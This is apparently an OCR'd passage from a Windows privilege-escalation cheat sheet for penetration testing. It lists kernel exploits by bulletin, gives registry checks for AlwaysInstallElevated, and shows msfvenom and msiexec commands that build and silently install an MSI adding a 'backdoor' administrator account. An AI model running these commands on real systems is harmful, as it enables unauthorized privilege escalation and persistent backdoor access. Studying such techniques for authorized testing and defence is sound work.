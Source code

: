- [MS16-111](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-111) 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
- [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075) 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
- [MS16-034](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034) 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
- [MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
- [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)  
    ...
- [MS03-026](https://www.exploit-db.com/exploits/66) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)

To cross compile a program from Kali, use the following command.

```
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - Microsoft Windows Installer

### AlwaysInstallElevated

Using the `reg query` command, you can check the status of the `AlwaysInstallElevated` registry key for both the user and the machine. If both queries return a value of `0x1`, then `AlwaysInstallElevated` is enabled for both user and machine, indicating the system is vulnerable.

- Shell command
    

- ```
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
    
- PowerShell command
    

- ```
    Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
    Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
    ```
    

Then create an MSI package and install it.

```
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```
